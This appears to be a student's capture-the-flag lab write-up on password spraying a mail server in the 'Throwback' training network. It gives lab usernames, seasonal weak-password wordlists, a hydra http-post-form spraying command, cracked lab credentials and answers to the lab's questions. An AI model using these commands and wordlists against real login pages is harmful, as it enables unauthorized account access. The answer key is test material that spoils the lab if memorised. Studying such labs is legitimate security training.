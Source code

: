 # Wait, just you mean just one this time?

- The only service we have left to attack is the mail server (10.200.53.232)
- Your team has suggested that you try password spray using the contact list from guest accounts as well as send phishing emails to the user in the contact list.


## What is password spraying?
- Password spraying is an attack where the password is constant and we are throwing a bunch of usernames from a list to see if any of them have that password set.
- This usually happens when users have default passwords set or a common weak password as well.
	- You can easily test in an environment for weak passwords by spraying a list of passwords/password against a list of users.

Brute-forcing is of many types, but mostly it is attempting a large number of passwords on the smallest number of accounts, or even on a single account.

On the other hand, Password spraying is almost the opposite. It is attempting the smallest number of passwords on the biggest number of accounts possible.

Reference - [Owasp Password Attacks](https://owasp.org/www-community/attacks/Password_Spraying_Attack)

## Common weak passwords
- If there are no strong password policies set in that environment, then we can spray the passwords or default passwords against a set of usernames.

Some examples of common weak passwords would be the current season with current year.

```
	 Summer2020

    Management2020

    Management2018

    Password2020

    <company>2020

    Password123
```

So first thing we need to do is build a list of usernames, since we remember that we got a list of bunch of usernames and their emails of THROWBACK.local domain from the mail server using guest account.
![[Pasted image 20220926054030.png]]

So list of usernames can be
```
HumphreyW
SummersW
FoxxR
DaibaN
PeanutButterM
PetersJ
DaviesJ
BlaireJ
GongoH
MurphyF
JeffersD
HorsemanB
```
[Some other usernames](https://github.com/insidetrust/statistically-likely-usernames)

Now for passwords we can compile a list as well, by mostly guessing and using same passwords again and again which were found previously.
- We found the password for HumphreyW as `securitycenter` which was an NTLM hash found in one of the log files on the firewall server.

```
Fall2020
Summer2020
Fall2019
Autumn2020
Autumn2019
Winter2020
Winter2019
Summer2021
Summer2022
Management2019
Management2018
Management2020
ThrowbackHacks2020
ThrowbackHacks2019
Throwback2019
Throwback2020
securitycenter
Password123
Password
```

- Now we need a password spraying tool!
1. BurpSuite - using ClusterBomb Intruder attack
2. Hydra 
```shell
#Using hydra, use the following command

hydra -L users.txt -p <password> MACHINE_IP http-post-form '/src/redirect.php:<user_parameter>=^USER^&<pass_parameter>=^PASS^:F=incorrect' -v

#In place of <user_parameter>, use the parameter name displayed while intercepting the request and same goes for <pass_parameter>
#If we want to use a file with passwords then we can use capital P (-P)
```

Some of the valid usernames and passwords we got were:
```
PeanutButterM : Summer2020
GongoH : Summer2020
JeffersD : Summer2020
MurphyF : Summer2020
DaviesJ : Management2018
```
- We can login using these creds and see for something sensitive on mails of employees as well

Check for Results in `"Secrets Harvested"` Folder above


## Questions
1. What is the username parameter in the POST request?
`Check Request in Proxy and the answer will be login_username.`

2. What is the password parameter in the POST request?
`secretkey`

3. What username found with hydra starts with an M?
`MurphyF`

4. What is the password found with hydra?
`Summer2020`


### Note - Password Spraying Attacks on HTTP require Burp or Hydra.
- SMB, LDAP, ssh and winrm can be password sprayed using crackmapexec
- Kerberos Auth can be password sprayed using Kerbrute

For HTTP POST parameter password spraying, hydra is faster if supplied with one password at a time. So use that if time constraint.